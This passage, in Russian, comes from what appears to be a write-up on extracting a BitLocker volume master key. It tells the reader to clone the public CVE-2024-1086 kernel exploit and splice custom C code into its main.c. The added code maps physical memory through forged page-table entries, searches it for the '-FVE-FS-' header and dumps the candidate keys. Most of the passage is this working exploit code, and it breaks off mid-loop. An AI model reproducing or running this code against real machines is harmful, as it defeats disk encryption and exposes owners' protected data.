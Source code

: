 Теперь нам необходимо дописать exploit, клонируем репу
```
git clone https://github.com/Notselwyn/CVE-2024-1086.git
```
откроем при помощи VSCode /home/archi/Files/TFTP/CVE-2024-1086/src/main.c
и в строку после 437 вставим написанный нами код для извлечения vmk
###  [PoС код](CVE-2024-1086/src/main.c#L439)
```
printf("[+] Starting search for VMK\n");
    void hexDump(const char *desc, void *addr, int len, int width) {
        int i, j;
        unsigned char *pc = (unsigned char*)addr;
    
        if (desc) printf("%s:\n", desc);
    
        for (i = 0; i < len; i += width) {
            // Выводим смещение в 4-значном шестнадцатеричном формате
            printf("  %04x  ", i);
    
            // Выводим hex-значения в указанном количестве байт (width)
            for (j = 0; j < width; j++) {
                if (i + j < len)
                    printf("%02x ", pc[i + j]);
                else
                    printf("   ");  // Заполняем пробелами, если строка короче width
            }
    
            printf(" ");
    
            // Выводим ASCII-представление
            for (j = 0; j < width; j++) {
                if (i + j < len) {
                    unsigned char c = pc[i + j];
                    printf("%c", (c >= 32 && c <= 126) ? c : '.');  // Только печатные символы
                }
            }
            printf("\n");
        }
    }

    for (unsigned long long l = 0; l < (CONFIG_PHYS_MEM / 0x200000); l++) {
        unsigned long long phys_base = l * 0x200000ull;

        for (unsigned short j = 0; j < 512; j++)
            pte_area[512 + j] = (phys_base + 0x1000ull * j) | 0x80000000000867;
        flush_tlb(_pmd_area, 0x400000);

    void* pmd_vmk_hdr_addr = memmem(pmd_data_area, 0x200000, "-FVE-FS-", 8);
    if (pmd_vmk_hdr_addr == NULL)
        continue;

    unsigned long long phys_vmk_hdr_addr = phys_base + (pmd_vmk_hdr_addr - pmd_data_area);

        printf("[+] found possible VMK base: %p -> %016llx\n", pmd_vmk_hdr_addr, phys_vmk_hdr_addr);
        hexDump("VMK Candidate", pmd_vmk_hdr_addr, 0x10*40, 0x10);
        uint32_t version = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4);
        uint32_t start = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4);
        uint32_t end = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4+4);
        
        if (version != 1) {
            printf("[+] VERSION MISMATCH! %d\n", version);
            continue;
```